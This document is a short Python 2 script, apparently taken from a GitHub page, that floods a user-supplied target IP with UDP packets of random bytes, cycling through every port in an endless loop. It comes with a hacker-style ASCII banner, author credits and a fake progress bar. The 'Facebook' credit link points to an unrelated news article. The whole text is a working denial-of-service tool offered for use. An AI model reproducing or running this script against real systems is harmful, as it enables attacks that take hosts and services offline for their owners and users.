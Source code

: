 #Copy this code doesn't make you programmer bro!

import sys
import os
import time
import socket
import random
#Code
from datetime import datetime
now = datetime.now()
hour = now.hour
minute = now.minute
day = now.day
month = now.month
year = now.year

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
bytes = random._urandom(1490)

#Banner Start
print "\033[1;31;40m___/__ \______ ___ / /____/ /_\033[1;31;40m"
print "\033[1;31;40m__  /_/ /_  __ `/_  __/__  __ |\033[1;31;40m"
print "\033[1;31;40m_  _, _/ / /_/ / / /_  _  / / /\033[1;31;40m"
print "\033[1;31;40m/_/ |_|  \__,_/  \__/  /_/ /_/ \033[1;31;40m"

#Banner End
print "\033[1;40mAuthor    : TORIKUL_ISLAM\033[1;40m "
print "\033[1;40mGithub    : Mdtaeik417/Mdtaeik417.git/\033[1;40m "
print "\033[1;40mFacebook : https://www.timesbull.com/ajab-gajab/news/infinix-note-12-pro-5g-a-budget-friendly-5g-powerhouse-with-stellar-specs-2024-03-20-235956.html\033[1;40m"
print     
ip = raw_input("[*]Enter Target Ip : ")
port = int(raw_input("[*]Enter Target Port : "))

time.sleep(3)
print "[-------->           ] 45%"
time.sleep(3)
print "[------------>       ] 55%"
time.sleep(3)
print "[------------------->] 100%"
time.sleep(5)
sent = 0
while True:
     sock.sendto(bytes, (ip,port))
     sent = sent + 1
     port = port + 1
     print "Sent %s packet to %s torikul port:%s"%(sent,ip,port)
     if port == 65534:
       port = 1

#Credit -TORIKUL_ISLAM (CYBER-99)0
